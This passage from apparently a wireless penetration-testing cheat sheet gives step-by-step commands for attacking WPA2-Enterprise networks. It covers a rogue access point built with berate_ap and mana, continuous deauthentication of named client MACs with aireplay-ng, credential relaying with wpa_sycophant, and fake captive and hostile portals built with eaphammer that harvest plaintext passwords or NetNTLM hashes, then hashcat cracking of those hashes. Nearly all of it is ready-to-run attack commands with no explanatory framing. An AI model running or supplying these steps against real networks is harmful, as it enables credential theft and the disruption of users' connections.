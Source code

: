         phase1="crypto_binding=0 peaplabel=0"
        phase2="auth=MSCHAPV2"
        bssid_blacklist=F0:9F:C2:00:00:00
    }
   ```
3. [Shell 1] Host rougue AP 
   ``` 
   cd /home/kali/Downloads/wifi-tools/berate_ap/
   ./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets
    ``` 
4. [In Parallel Shell 2] try deauth attack with -a = AP mac, -c = station (that connecting) mac
   ```
    iwconfig wlan0mon channel 44
    aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
   ```
5. [In Parallel Shell 3] Relay attack
   ```
   cd /home/kali/Downloads/wifi-tools/wpa_sycophant/
    ./wpa_sycophant.sh -c wpa2-mgt-fake.conf -i wlan3
   ```  
6. [If failed]: change ```.conf``` file ``` phase1="peapver=1" ```

### Compromising another AP with relaying already compromised AP 
1. Same step as above
2. only change ssid in ``` wpa2-mgt-fake.conf ``` to the new target AP

## WPA 2 MGT - Fake captive portal
- attack client that associated to this network
### [Option 1] Captive portal 
- password will be plaintext
1. Leverage eaphammer
   ```
   cd /home/kali/Downloads/wifi-tools/eaphammer
   sudo killall dnsmasq
   ./eaphammer --essid WiFi-Restaurant --interface wlan4 --captive-portal
   ```
2. [Shell 2] replay attack || choose -c station id that associated to your network
   ```
   iwconfig wlan0mon channel 44
   aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
   ```

### [Option 2] Hostile portal
- credential will be ntlm 
1. Leverage eaphammer
   ```
   cd /home/kali/Downloads/wifi-tools/eaphammer
   sudo killall dnsmasq
   ./eaphammer --essid WiFi-Restaurant --interface wlan4 --hostile-portal
   ```
2. [Shell 2] replay attack || choose -c station id that associated to your network
   ```
   iwconfig wlan0mon channel 44
   aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
   ```
3. Hashcat the result (netntlm)
   ```
   hashcat -a 0 -m 5600 password.hash /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --force
   ```
